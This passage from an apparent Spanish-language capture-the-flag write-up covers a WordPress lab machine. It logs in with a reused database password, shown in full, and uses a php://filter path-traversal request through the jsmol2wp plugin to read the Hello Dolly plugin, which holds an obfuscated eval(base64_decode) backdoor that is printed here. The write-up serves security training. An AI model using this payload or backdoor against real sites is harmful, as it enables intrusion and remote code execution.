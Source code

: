A menudo, las credenciales de la base de datos se reutilizan para un usuario de WordPress. Intentamos iniciar sesión en el panel de administración (/wp-login.php) usando wpuser y la contraseña obtenida.

Usuario: wpuser

Contraseña: KbLSF2YopefW3rJZGZG9aZGG

Acceso Exitoso

El intento de inicio de sesión fue exitoso, y se nos redirigió al Dashboard (Panel de Control) de WordPress.

Resultado: Hemos obtenido acceso como un usuario válido (probablemente administrador) y ahora tenemos la capacidad de ejecutar acciones dentro del CMS, lo que nos acerca a obtener un shell en la máquina. El siguiente paso será buscar una vulnerabilidad para obtener RCE (Ejecución de Código Remoto) o subir un shell.

## 🕵️ Paso 6: Detección y Explotación de la Backdoor Oculta

Una vez que tuvimos acceso al panel de administración, el enfoque pasó a obtener una *shell* en el sistema. En lugar de utilizar las vulnerabilidades típicas de subida de *shells* o edición de temas, una enumeración más profunda de los archivos y publicaciones del CMS reveló un camino oculto.

### 📝 Objetivo
1.  Encontrar indicios de una *backdoor* en las publicaciones o archivos del sistema.
2.  Utilizar la vulnerabilidad LFI/SSRF para leer el código fuente de los *plugins* en busca de código malicioso.
3.  Decodificar y explotar la *backdoor* para obtener Ejecución de Código Remoto (RCE).

### 1. Indicio de la Backdoor (Webmaster Tasks)
Al explorar las páginas y publicaciones del sitio web, se encontró una publicación titulada **"Webmaster Tasks!!"** que hacía una referencia muy específica a una posible *backdoor*.

<img width="1547" height="781" alt="entro en tareas pendientes y mencionan una backdoor" src="https://github.com/user-attachments/assets/6b43812e-c447-46fe-be11-43a061250e0e" />

La instrucción clave es: **`[IMPORTANT] Check Backdoors: Verify the SOURCE CODE of "Hello Dolly" plugin as the site's code revision.`**

### 2. Lectura del Código Fuente del Plugin
Siguiendo la pista, utilizamos la misma vulnerabilidad LFI/SSRF del Paso 5 para leer el código del *plugin* **Hello Dolly**, que se encuentra en la ruta `/wp-content/plugins/hello.php`.

<img width="1571" height="846" alt="ahora tuilizando lfi accedo al codigo de hello" src="https://github.com/user-attachments/assets/7bcf8287-68e0-495d-a7dc-f468dc2f3dc6" />

#### Petición (LFI para código fuente):

```url
[http://smol.thm/wp-content/plugins/jsmol2wp/php/jsmol.php?isform=true&call=getRawDataFromDatabase&query=php://filter/resource=../../../../wp-content/plugins/hello.php](http://smol.thm/wp-content/plugins/jsmol2wp/php/jsmol.php?isform=true&call=getRawDataFromDatabase&query=php://filter/resource=../../../../wp-content/plugins/hello.php)
````
En la parte inferior del código del plugin se encontró una línea de código ofuscado:
````
function smolhack() { eval(base64_decode('CiBifCAgaXNzZXQoJF9HRVNbInB0cCJdKSB7IHN5c3RlbSg...')); }; smolhack();
````
